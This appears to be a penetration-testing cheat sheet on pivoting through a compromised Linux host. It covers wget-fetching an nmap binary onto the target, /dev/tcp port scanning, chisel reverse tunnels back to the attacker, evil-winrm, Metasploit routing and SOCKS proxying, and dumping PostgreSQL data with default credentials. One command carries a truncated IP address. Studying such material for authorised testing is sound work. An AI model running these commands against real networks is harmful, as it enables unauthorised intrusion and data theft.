 ```yaml
---
title: Linux Pivoting
description: Accessing obtained over one machine to exploit another machine deeper in the network.
tags:
    - Network
refs:
date: 2023-04-16
draft: false
---
```


## Enumerate Network in Remote Machine

After entering remote machine, we can enumerate and search other networks.  
Before that if the target machine does not have **`nmap`**, we can upload the binary to target machine.

```bash
# Linux 64-bit
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap
```

When we're ready, let's investigate the network as follow.

```sh
# ARP cache
arp -a

# Network hosts, ip addresses
cat /etc/hosts
cat /etc/resolv.conf
nmcli dev show

# Network ranges
nmap 10.0.0.1-255
nmap 172.17.0.1-255
for i in {1..255}; do (ping -c 1 10.0.0.${i} | grep "bytes from" &); done

# Port scan
nmap 10.0.0.2
nmap 172.17.0.2
for i in {1..65535}; do (echo > /dev/tcp/172.17.0.2/$i) >/dev/null 2>&1 && echo $i is open; done
```

<br />

## Access to Not Directly Accessible Host

If we find host and port but cannot directly access from local machine, we can accomplish that by reverse port forwarding.  
For example, assume we found another host **172.16.22.2** and port **5985** in remote machine, then we want to connect the port on the host. Execute the following commands on each machine.

```bash
# In local machine
chisel server -p 9999 --reverse

# In remote machine
# replace "10.0.0.1" with your local ip address
chisel client 10.0.0.1:9999 R:5985:172.16.22.2:5985
```

Now we can access to 172.16.22.2:5985 from local machine as follow.

```bash
nmap -p 5985 localhost

# Result
PORT     STATE SERVICE
5985/tcp open  wsman
```

After that we can connect to the service.

```sh
evil-winrm -u username -p password -i localhost
```

For details, please refer to [Port Forwarding with Chisel](/exploit/network/port-forwarding/port-forwarding-with-chisel/).

<br />

## Basic Flow with Metasploit, Meterpreter

```sh
msfconsole
msf> use auxiliary/...
msf> run

msf> background

# Upgrade the latest session to meterpreter
msf> sessions -u -1
# Interact with the latest session (meterpreter)
msf> sessions -i -1

# Resolve the remote hostname to an ip address
meterpreter> resolve <variable>

# Background the meterpreter session
meterpreter> background

# Configure the routing table to the destination for 172.28.101.51 (outputted ip of the "resolve" command) to the latest opened session.
msf> route add 172.28.101.51/32 -1

# Configure the routing table to the other destination for 172.17.0.1 (e.g. written in /.dockerenv) to the latest opened session.
msf> route add 172.17.0.1/32 -1

# Print the routing table
msf> route print
```

After modifying the routing table, you can fetch information using the IP (e.g. 172.28.101.51) in msfconsole. For example:

```sh
# PostgreSQL
msf> use auxiliary/scanner/postgres/postgres_schemadump
msf> run postgres://postgres:postgres@172.28.101.51/postgres

msf> use auxiliary/admin/postgres/postgres_sql
msf> run postgres://postgres:postgres@172.28.101/postgres sql='select * from <table>'
```

- **Socks Proxy**

    It is an intermediate server that supports relaying networking traffic between two machines.

    ```sh
    msfconsole
    msf> use auxiliary/server/socks_proxy
    msf> run srvhost=127.0.0.1 srvport=9050 version=4a

    # Check if the socks proxy is running as a background job.
    msf> jobs
    # Stop the socks proxy
    msf> jobs -k <job-id>
    ```

    After that, you can use the [localhost](http://localhost) using tools like curl, proxychains.

    ```sh
    curl --proxy socks4a://localhost:9050 http://172.17.0.1 -v

    proxychains nmap 172.17.0.1
    proxychains ssh <user>@172.17.0.1
    ```